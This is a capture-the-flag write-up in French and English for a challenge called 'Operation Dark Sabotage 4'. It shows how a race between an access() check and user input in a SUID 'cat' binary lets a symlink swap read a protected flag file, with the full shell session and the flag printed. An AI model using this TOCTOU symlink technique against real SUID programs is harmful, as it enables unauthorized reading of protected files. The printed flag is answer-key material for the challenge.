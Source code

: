 # Operation Dark Sabotage 4

## Write-up FR

On constate que le binaire `cat` est un exécutable `SUID`, ce qui suggère qu'il peut être exploité.

En l'analysant avec Ghidra, on observe qu'il prend en argument un fichier et utilise `access` pour vérifier si l'on a la permission d'y accéder :
```c
iVar1 = access((char *)param_2[1],2);
if (iVar1 == 0) {
        ...
}else{
        fprintf(stderr,"%s: %s: Permission denied\n",*param_2,param_2[1]);
}
```
Le programme nous propose ensuite plusieurs choix : afficher la taille du fichier, voir ses permissions ou lire son contenu.
Cependant, en raison de la vérification via `access`, il nous est impossible de lire un fichier auquel nous n'avons pas accès :
```bash
$ ./cat flag.txt 
./cat: flag.txt: Permission denied
```
On remarque une race condition entre la vérification d'accès (`access`) et la prise en compte de notre choix (`scanf`).
Étant donné que le contrôle d'accès se fait avant que l'utilisateur ne sélectionne son action, nous avons une fenêtre de temps pour remplacer le fichier passé en argument par un lien symbolique pointant vers `flag.txt` :
```bash
$ touch toto
$ ./cat toto
Choice: 
        [1] Display file size
        [2] Display file permission
        [3] Display file content
 -> ^Z
[1]+  Stopped                 ./cat toto
$ rm toto 
$ ln -s flag.txt toto
$ fg
./cat toto
3
polycyber{d34th_t0_th3_3mp1r3}
```

## Write-up EN

We notice that the `cat` binary is a `SUID` executable, which suggests it can be exploited.

Analyzing it with Ghidra, we observe that it takes a file as an argument and uses access to check if the user has permission to access it :
```c
iVar1 = access((char *)param_2[1],2);
if (iVar1 == 0) {
        ...
}else{
        fprintf(stderr,"%s: %s: Permission denied\n",*param_2,param_2[1]);
}
```
The program then presents several options: displaying the file size, viewing its permissions, or reading its content.
However, due to the `access` check, we are unable to read a file we do not have permission for :
```bash
$ ./cat flag.txt 
./cat: flag.txt: Permission denied
```
We notice a race condition between the access check (`access`) and the user input handling (`scanf`).
Since the access check is performed before the user selects an option, there is a time window in which we can replace the provided file with a symbolic link to `flag.txt` :
```bash
$ touch toto
$ ./cat toto
Choice: 
        [1] Display file size
        [2] Display file permission
        [3] Display file content
 -> ^Z
[1]+  Stopped                 ./cat toto
$ rm toto 
$ ln -s flag.txt toto
$ fg
./cat toto
3
polycyber{d34th_t0_th3_3mp1r3}
```

## Flag

`polycyber{d34th_t0_th3_3mp1r3}`